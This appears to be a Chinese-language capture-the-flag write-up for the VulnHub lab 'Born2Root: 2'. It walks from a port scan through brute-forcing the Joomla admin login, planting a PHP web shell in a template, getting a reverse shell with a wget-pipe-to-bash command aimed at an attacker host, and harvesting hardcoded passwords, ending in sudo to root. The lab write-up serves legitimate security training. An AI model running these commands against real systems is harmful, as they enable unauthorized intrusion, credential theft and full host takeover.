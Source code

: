 # Born2Root: 2

2024-11-6 https://www.vulnhub.com/entry/born2root-2,291/

difficulty: Not easy

## IP

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
34835/tcp open  unknown
```

扫描 80 端口 发现 http://192.168.5.40/joomla/ 是 joomla 系统，发现一个疑似用户名 tim，http://192.168.5.40/joomla/README.txt 版本为 3.6 查找相关 exp 后没发现可以利用的。

找到 joomla 的登录页面 http://192.168.5.40/joomla/administrator/ 默认的登录名是 admin，使用 cewl 收集系统单词信息作为密码字典，进行爆破，最终得到登陆用户和密码：

```
cewl -d 5 http://192.168.5.40/joomla/ -w pass.txt

python joomla-brute.py -u http://192.168.5.40/joomla -w pass.txt -usr admin
admin:travel
```

使用凭据 admin:travel 登陆到系统，在顶部菜单中，Extensions -> Templates -> Templates 选中一个主题，编辑它的 error.php 页面，加入 php 一句话木马：`system($_GET['cmd']);`，然后点击保存。

通过下面的语句测试一句话命令执行成功：

```
curl -s http://192.168.5.40/joomla/templates/beez3/error.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

获得 web shell 的反弹连接：

```
curl -G --data-urlencode 'cmd=wget -q -O - http://192.168.5.3/5.3/8888.sh|bash' http://192.168.5.40/joomla/templates/beez3/error.php
```

先读取 joomla 的配置文件,发现数据库连接密码：

```
/var/www/html/joomla/configuration.php

public $host = 'localhost';
public $user = 'joomla';
public $password = 'redhat';
public $db = 'joomla';
public $dbprefix = 'v3rlo_';
public $live_site = '';

public $secret = 'qognJLTotftnguG7';
```

/home 目录下发现 tim 用户，尝试用 travel、redhat 和 qognJLTotftnguG7 这两个密码进行测试，发现不对。

进入数据库继续查看：

```
mysql -u joomla -h localhost -p
密码输入: redhat
```

但是在数据库中也没发现体现密码的数据表，这条路行不通。

继续寻找其他的提权点，经过搜索排除 sys lib 等目录后(或者 lin peas 进行枚举)，只发现了一个 可读的 py 脚本里面有 tim 的密码信息：

```
find / -readable -type f 2>/dev/null | grep -v '/sys\|/proc\|/lib\|/usr\|/var/www\|/run\|/boot\|/bin\|/sbin\|/var\|/etc'

www-data@born2root:/opt/scripts$ cat fileshare.py
#!/usr/bin/env python

import sys, paramiko

if len(sys.argv) < 5:
    print "args missing"
    sys.exit(1)

hostname = "localhost"
password = "lulzlol"
source = "/var/www/html/joomla"
dest = "/tmp/backup/joomla"

username = "tim"
port = 22

try:
    t = paramiko.Transport((hostname, port))
    t.connect(username=username, password=password)
    sftp = paramiko.SFTPClient.from_transport(t)
    sftp.get(source, dest)

finally:
    t.close()
```

发现 tim 的 ssh 密码为 lulzlol 使用此密码切换到 tim 用户，sudo -l 发现了有用全部权限，直接提权到 root：

```
(ALL : ALL) ALL

tim@born2root:~$ sudo /bin/bash
root@born2root:/home/tim# id
uid=0(root) gid=0(root) groups=0(root)
root@born2root:/home/tim# cd /root
root@born2root:~# ls
flag.txt
root@born2root:~# cat flag.txt

             .andAHHAbnn.
           .aAHHHAAUUAAHHHAn.
          dHP^~"        "~^THb.
    .   .AHF                YHA.   .
    |  .AHHb.              .dHHA.  |
    |  HHAUAAHAbn      adAHAAUAHA  |
    I  HF~"_____        ____ ]HHH  I
   HHI HAPK""~^YUHb  dAHHHHHHHHHH IHH
   HHI HHHD> .andHH  HHUUP^~YHHHH IHH
   YUI ]HHP     "~Y  P~"     THH[ IUP
    "  `HK                   ]HH'  "
        THAn.  .d.aAAn.b.  .dHHP
        ]HHHHAAUP" ~~ "YUAAHHHH[
        `HHP^~"  .annn.  "~^YHH'
         YHb    ~" "" "~    dHF
          "YAb..abdHHbndbndAP"
           THHAAb.  .adAHHF
            "UHHHHHHHHHHU"
              ]HHUUHHHHHH[
            .adHHb "HHHHHbn.
     ..andAAHHHHHHb.AHHHHHHHAAbnn..
.ndAAHHHHHHUUHHHHHHHHHHUP^~"~^YUHHHAAbn.
  "~^YUHHP"   "~^YUHHUP"        "^YUP^"
       ""         "~~"


W00t w00t ! If you are reading this text  then Congratulations !!

I hope you liked the second episode of 'Born2root' if you liked it please ping me in Twitter @h4d3sw0rm .

If you want to try more boxes like this created by me , try this new sweet lab called 'Wizard-Labs' which is a platform which hosts many boot2root machines to improve your pentesting skillset https://labs.wizard-security.net !
Until we meet again :-)
```
